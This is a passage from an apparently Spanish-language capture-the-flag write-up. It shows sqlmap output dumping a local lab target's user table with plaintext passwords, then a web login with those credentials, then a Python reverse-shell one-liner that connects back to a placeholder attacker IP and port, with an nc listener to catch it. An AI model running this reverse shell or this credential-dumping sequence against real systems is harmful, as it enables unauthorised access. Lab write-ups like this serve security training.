 ```
| 2  | 123456123456         | santiago |
| 3  | MiClaveEsInhackeable | joe      |
+----+----------------------+----------+

[11:43:37] [INFO] table 'users.usuarios' dumped to CSV file '/root/.local/share/sqlmap/output/172.17.0.2/dump/users/usuarios.csv'
[11:43:37] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/172.17.0.2'

[*] ending @ 11:43:37 /2025-03-09/
```

Vemos varias credenciales de dicha tabla, por lo que vamos a probarlas por `SSH`, pero no tendremos suerte, pero si por ejemplo utilizamos las siguiente credenciales en la pagina web del login:

```
User: joe
Pass: MiClaveEsInhackeable
```

Veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (283).png" alt=""><figcaption></figcaption></figure>

## Escalate user www-data

Vemos que podemos ejecutar comandos de `python3` por lo que haremos lo siguiente para generarnos una `reverse shell`.

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

Antes de enviarlo nos pondremos al a escucha:

```shell
nc -lvnp <PORT>
```
